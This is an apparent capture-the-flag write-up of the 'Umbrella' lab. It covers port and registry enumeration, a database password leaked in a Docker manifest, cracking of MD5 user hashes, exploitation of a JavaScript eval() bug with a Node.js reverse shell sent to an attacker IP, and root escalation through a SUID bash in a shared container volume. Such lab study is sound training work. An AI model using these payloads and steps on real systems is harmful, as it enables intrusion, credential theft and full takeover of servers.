






# Web Hacking Phases
 
Breach Umbrella Corp's time-tracking server by exploiting misconfigurations around containerisation.


## Reconnaissance
 
### Adding Localhost
```bash
> echo "10.201.52.77 umbrella.thm" | sudo tee -a /etc/hosts

10.201.52.77 umbrella.thm
```


## Web Application Enumeration

### Inspecting HTTP Response Headers and Sitemaps
```bash
> ping 10.201.52.77
PING 10.201.52.77 (10.201.52.77) 56(84) bytes of data.
64 bytes from 10.201.52.77: icmp_seq=1 ttl=61 time=296 ms

--- 10.201.52.77 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 296.424/297.478/298.688/0.930 ms
```
```bash
> curl -sI http://umbrella.thm:8080
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 656
ETag: W/"290-n6FBNrlEFkLykrUr4jZvJj1bloA"
Set-Cookie: connect.sid=s%3ARXSzGxxttVZC_FAb0E_zgW7xCygloPJ7.VGrz5kVQU4KbBaZtKMnc4nW1%2FXFQTBaG0LPbxGukN4E; Path=/; HttpOnly
Date: Sat, 23 Aug 2025 14:11:33 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

## Mapping and Discovery
```bash
> nmap 10.201.52.77
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-23 10:07 EDT
Nmap scan report for 10.201.52.77
Host is up (0.31s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
5000/tcp open  upnp
8080/tcp open  http-proxy
```
```bash
> export ip=10.201.52.77
> nmap -sC -sV -p$(nmap -p- --min-rate=2000 -T4  $ip | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/, $//') $ip -oN tcpscan.txt
```
> output
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:51:c6:51:b0:c9:66:f5:8f:a0:de:26:33:b0:2d:1f (RSA)
|   256 4e:f2:1b:f1:db:eb:3a:ec:cd:dd:e9:42:15:99:a8:69 (ECDSA)
|_  256 a1:54:42:46:e3:64:f8:5c:49:a0:83:79:d4:fd:8d:3d (ED25519)
3306/tcp open  mysql   5.7.40 MySQL
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Not valid before: 2022-12-22T10:04:49
|_Not valid after:  2032-12-19T10:04:49
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 12
|   Capabilities flags: 65535
|   Some Capabilities: SupportsCompression, ConnectWithDatabase, Speaks41ProtocolOld, SupportsLoadDataLocal, SupportsTransactions, LongPassword, FoundRows, LongColumnFlag, ODBCClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, InteractiveClient, Speaks41ProtocolNew, Support41Auth, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: mp\x0F&\\x17yt[NF\x0B\x0DI N*\x10\x06\x1D
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
8080/tcp open  http    Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Vulnerability Analysis
### Docker (5000)
```bash
> ffuf -u http://umbrella.thm:5000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fw 4

v2                      [Status: 301, Size: 39, Words: 3, Lines: 3, Duration: 290ms]
```
```bash
> ffuf -u http://umbrella.thm:5000/v2/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -mc all -fw 4

_catalog                [Status: 200, Size: 43, Words: 1, Lines: 2, Duration: 293ms]
```
## Checking for Docker Registry
How to get a list of images on docker registry v2
> [reference](https://stackoverflow.com/questions/31251356/how-to-get-a-list-of-images-on-docker-registry-v2)
```bash
> curl http://umbrella.thm:5000/v2/_catalog

{"repositories":["umbrella/timetracking"]}
```
```bash
> curl http://umbrella.thm:5000/v2/_catalog -I
HTTP/1.1 405 Method Not Allowed
Allow: GET
Content-Type: text/plain; charset=utf-8
Docker-Distribution-Api-Version: registry/2.0
X-Content-Type-Options: nosniff
Date: Sat, 23 Aug 2025 15:34:37 GMT
Content-Length: 19
```
```bash
> curl -X GET http://umbrella.thm:5000/v2/umbrella/timetracking/tags/list
{"name":"umbrella/timetracking","tags":["latest"]}
```
### Dump images manifest
```bash
> curl -X GET http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest 
HTTP/1.1 200 OK
Content-Length: 17114
Content-Type: application/vnd.docker.distribution.manifest.v1+prettyjws
Docker-Content-Digest: sha256:f62baaac65a8e4dd9745175041720f98a763c9c897b11558c963d1515ffee2ff
Docker-Distribution-Api-Version: registry/2.0
Etag: "sha256:f62baaac65a8e4dd9745175041720f98a763c9c897b11558c963d1515ffee2ff"
X-Content-Type-Options: nosniff
Date: Sat, 23 Aug 2025 15:45:30 GMT
```
```bash
~/umbrella > curl -s -X GET http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest | jq 
```
```bash
  "history": 
    {
      "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=   \",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
    }
```
### Mysql enumeration
```bash
> mysql -h umbrella.thm -u root -p --ssl=0

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
```bash
MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0.434 sec)

MySQL [timetracking]> DESCRIBE users;
+-------+-------------+------+-----+---------+-------+
| Field | Type        | Null | Key | Default | Extra |
+-------+-------------+------+-----+---------+-------+
| user  | varchar(10) | YES  |     | NULL    |       |
| pass  | varchar(32) | YES  |     | NULL    |       |
| time  | int(11)     | YES  |     | NULL    |       |
+-------+-------------+------+-----+---------+-------+
3 rows in set (0.291 sec)


MySQL [timetracking]> SELECT * FROM users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0.294 sec)
```
### Technology Stack Identification
```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 
```


### Password cracking 
```bash
> hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 4a04890400b5d7bac101baace5d7e994

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
```bash
> hashcat -m 0 -a 0 -o crack.txt hashes.txt /usr/share/wordlists/rockyou.txt
```
```bash
> hashcat --show -m 0 hashes.txt

claire-r:2ac9cb7dc02b3c0083eb70898e549b63:Password1
chris-r:0d107d09f5bbe40cade3de5c71e9e9b7:letmein
jill-v:d5c0607301ad5d5c1528962a83992ac8:sunshine1
barry-b:4a04890400b5d7bac101baace5d7e994:sandwich
```


### SSH
```bash
> ssh claire-r@umbrella.thm
...
...
claire-r@ip-10-201-78-141:~$ 
```
```bash
claire-r@ip-10-201-78-141:~$ cat /etc/passwd | grep $100
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
user:x:1000:1000:admin:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
claire-r:x:1001:1001:Claire Redfield,,,:/home/claire-r:/bin/bash
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```
### Post Exploitation Enumeration 
```bash
claire-r@ip-10-201-78-141:~/timeTracker-src$ ls
app.js  db  docker-compose.yml  Dockerfile  logs  package.json  package-lock.json  public  views
claire-r@ip-10-201-78-141:~/timeTracker-src$ 
```
```bash
claire-r@ip-10-201-78-141:~/timeTracker-src$ cat Dockerfile
FROM node:19-slim

WORKDIR /usr/src/app
ENV DB_HOST=db
ENV DB_USER=root
ENV DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5
ENV DB_DATABASE=timetracking
ENV LOG_FILE=/logs/tt.log

COPY package*.json ./
RUN npm install

COPY ./public ./public
COPY ./views ./views
COPY app.js .

EXPOSE 8080
CMD [ "node", "app.js"]
```
### Lateral Movement 
```bash
claire-r@ip-10-201-78-141:/home$ ls -al
total 20
drwxr-xr-x  5 root     root     4096 Aug 23 16:11 .
drwxr-xr-x 19 root     root     4096 Aug 23 16:11 ..
drwxr-xr-x  4 claire-r claire-r 4096 Aug 23 16:37 claire-r
drwxr-xr-x  3 ubuntu   ubuntu   4096 Aug 23 16:11 ubuntu
drwxr-xr-x  5 user     user     4096 Dec 22  2022 user
```
> exfiltrate app.js and analyze 
```bash
> scp claire-r@umbrella.thm:/home/claire-r/timeTracker-src/app.js /home/kali/umbrella/app.js
claire-r@umbrella.thm's password: 
app.js                                  100% 3237     5.4KB/s   00:00 
```
### Analyze code
```bash
const mysql = require('mysql');
const express = require('express');
const session = require('express-session');
const path = require('path');
const crypto = require('crypto')
const cookieParser = require('cookie-parser');
const fs = require('fs');

const connection = mysql.createConnection({
	host     : process.env.DB_HOST,
	user     : process.env.DB_USER,
	password : process.env.DB_PASS,
	database : process.env.DB_DATABASE
});

const app = express();
app.set('view engine' , 'ejs')
app.set('views', './views')
app.use(express.static(__dirname + '/public'));
app.use(express.json());
app.use(express.urlencoded({ extended: true }));

app.use(cookieParser());
app.use(session({secret: "Your secret key", cookie : {secure : false}}));

var logfile = fs.createWriteStream(process.env.LOG_FILE, {flags: 'a'});

var log = (message, level) => {
	format_message = `[${level.toUpperCase()}] ${message}`;
	logfile.write(format_message + "\n")
	if (level == "warn") console.warn(message)
	else if (level == "error") console.error(message)
	else if (level == "info") console.info(message)
	else console.log(message)
}


// http://localhost:8080/time
app.post('/time', function(request, response) {
	
    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
		let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

		connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
			if (error) {
				log(error, "error")
			};

			log(`${username} added ${time} minutes.`, "info")
			response.redirect('/');
		});
	} else {
        response.redirect('/');;	
    }
	
});
``` 

## Gaining Root via eval()
- The use of eval() on user-supplied input (request.body.time) is extremely dangerous.
- An attacker can submit arbitrary JavaScript here and execute commands on the server under the privileges of the Node.js process.
```js
let timeCalc = parseInt(eval(request.body.time)); 
```
### Via post request using curl
> grab cookie

if the endpoint requires authentication/session — include the cookie.
```bash
> curl -I http://umbrella.thm:8080/
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 656
ETag: W/"290-n6FBNrlEFkLykrUr4jZvJj1bloA"
Set-Cookie: connect.sid=s%3ABIKQ_Sn5V2hcdJUHQLt_E726fseOUDfb.%2B%2BiCpAdr1WpiGKab5IvUET60B9izfNXEBQUQGRE3vNk; Path=/; HttpOnly
Date: Sat, 23 Aug 2025 17:59:20 GMT
Connection: keep-alive
Keep-Alive: timeout=5

```
### Payload 
```js 
(function(){
  var net=require('net'),
      cp=require('child_process'),
      sh=cp.spawn('/bin/sh',[]);
  var client=new net.Socket();
  client.connect(9001,'10.21.252.17',function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
})()

```
```bash
curl -X POST http://umbrella.thm:8080/time \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: connect.sid=s%3AEd4Jmgid0WUmTT3IZ05vKVaO_4LxJMpf.rHt9Fun5IwSurYxn83IHsBpotN6oCL3bQd5TtayxK2o" \
  --data-urlencode "time=(function(){var net=require('net'),cp=require('child_process'),sh=cp.spawn('/bin/sh',[]);var client=new net.Socket();client.connect(9001,'10.21.252.17',function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});})()"

```
> stable shell (script)
```bash

which script bash socat perl ruby expect python

script /dev/null -c bash
```
```bash
> nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.21.252.17] from (UNKNOWN) [10.201.120.222] 53508
ls
app.js
node_modules
package-lock.json
package.json
public
views
which script
/usr/bin/script
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@de0610f51845:/usr/src/app#
root@de0610f51845:/usr/src/app# export TERM=linux 
export TERM=linux 
root@de0610f51845:/usr/src/app# ^Z
[1]  + 284850 suspended  nc -lvnp 9001
> stty raw -echo;fg
[1]  + 284850 continued  nc -lvnp 9001

root@de0610f51845:/usr/src/app# 

```
### Creating a SUID Binary in the logs Directory
we have write access to the directory based on `rw-` permissions 
- grab the bash binary and change permission after accessing docker container




> terminal 1
```bash
claire-r@ip-10-201-120-222:~/timeTracker-src/logs$ which bash
/usr/bin/bash
claire-r@ip-10-201-120-222:~/timeTracker-src/logs$ cp /bin/bash . 
claire-r@ip-10-201-120-222:~/timeTracker-src/logs$ ls
bash  tt.log
claire-r@ip-10-201-120-222:~/timeTracker-src/logs$ 
```


> terminal 2
```bash
root@de0610f51845:~# cd /logs
root@de0610f51845:/logs# ls
bash  tt.log
 
# change permission
root@de0610f51845:/logs# chown root:root bash
root@de0610f51845:/logs# chmod 4755 bash 
```
> back to termial 1
```bash
claire-r@ip-10-201-120-222:~/timeTracker-src/logs$ ./bash -p
bash-5.0# id
uid=1001(claire-r) gid=1001(claire-r) euid=0(root) groups=1001(claire-r)
bash-5.0# 

```

## Post-Exploitation
### Flags
- claire user
    - THM{d832c0e4cf.....6124f7a6b25e}
- root 
    - THM{1e15fbe797.....b4124fd9eab2}

